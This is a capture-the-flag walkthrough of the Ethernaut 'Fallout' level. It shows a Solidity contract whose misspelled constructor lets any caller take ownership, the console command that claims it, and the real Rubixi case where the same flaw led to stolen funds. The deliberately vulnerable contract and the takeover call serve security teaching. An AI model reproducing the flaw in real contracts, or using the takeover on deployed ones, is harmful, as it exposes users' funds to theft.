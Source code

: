 # Hello Ethernaut

## Challenge Description

Claim ownership of the contract below to complete this level.

 Things that might help:

- Solidity Remix IDE

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;

  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## Challenge Solution Walkthrough

In previous versions of the Solidity compiler, the constructor function was defined with the same name as the contract's name. However, in the given contract, there is a typo in the constructor function name. The function `Fal1out()` should actually be `Fallout()` to serve as the constructor. To solve this challenge, you need to call the `Fal1out()` function. Due to the typo, this function can be called multiple times, allowing anyone to become the owner of the contract.  

```solidity
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

To solve the challenge, open the console and execute the following command: 

```javascript
> await contract.Fal1out()
```

After executing the command, you will become the owner of the contract. To verify that you are the owner, run the following command:

```javascript
> (await contract.owner()).toString() == player.toString()
< true
```

If the return value is `true`, it means you have successfully become the owner.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
